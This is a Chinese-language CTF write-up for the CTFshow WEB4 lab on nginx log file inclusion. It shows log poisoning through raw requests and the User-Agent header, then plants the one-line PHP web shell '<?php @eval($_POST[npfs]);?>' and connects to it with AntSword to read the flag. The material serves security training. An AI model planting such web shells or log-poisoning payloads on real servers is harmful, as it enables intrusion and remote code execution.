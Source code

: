 ```yaml
---
title: 日志文件包含
date: 2020-07-04  20:02:54
categories: web
---
```




测试靶机：CTFshow WEB4

<!--more-->

## 漏洞测试

1.输入<?php phpinfo();?>进行测试

2.查看相应日志文件，在本题中文件日志默认地址为`/var/log/nginx/access.log`
 （可通过抓包查看得知服务器为Ubuntu，由nginx搭建的网站，nginx的日志文件默认地址在/var/log/nginx/access.log和/var/log/nginx/error.log，其中本题中access.log可以打开）

 ![](http://img.npfs06.top/20210226200525.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](http://img.npfs06.top/20210226200537.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)





`?url=/var/log/nginx/access.log`,查看文件日志，发现刚刚get的phpinfo存在日志里,且被转义



![](http://img.npfs06.top/20210226200550.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



3.重新Get <?php phpinfo();?> 并进行抓包

![](http://img.npfs06.top/20210226200609.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

将这里的`%3C?php%20phpinfo();?%3E`改成` <?php phpinfo();?> `
修改之后放包，再去文件包含日志文件，发现<?php phpinfo();?>已被执行

4.由此判断存在日志注入漏洞



## 法一

1.输入一句话木马`<?php @eval($_POST[npfs]);?>`

![](http://img.npfs06.top/20210226200625.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

2.抓包将转义后的`<?php @eval($_POST[npfs]);?>`修改回来，放包（实际做法，如上面所述）

3.访问日志文件，查看存在一句话木马内容，说明一句话木马被当作php语言正常解析

4.蚁剑连接

![](http://img.npfs06.top/20210226200638.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

flag在根目录下的www的flag.txt文件中



## 法二

1.url :`?url=/var/log/nginx/access.log`,抓包

2.利用 user-agent 插入 payload 到日志文件

![](http://img.npfs06.top/20210226200655.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



3. 放包，蚁剑连接
    ![](http://img.npfs06.top/20210226200708.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

flag在根目录下的www的flag.txt文件中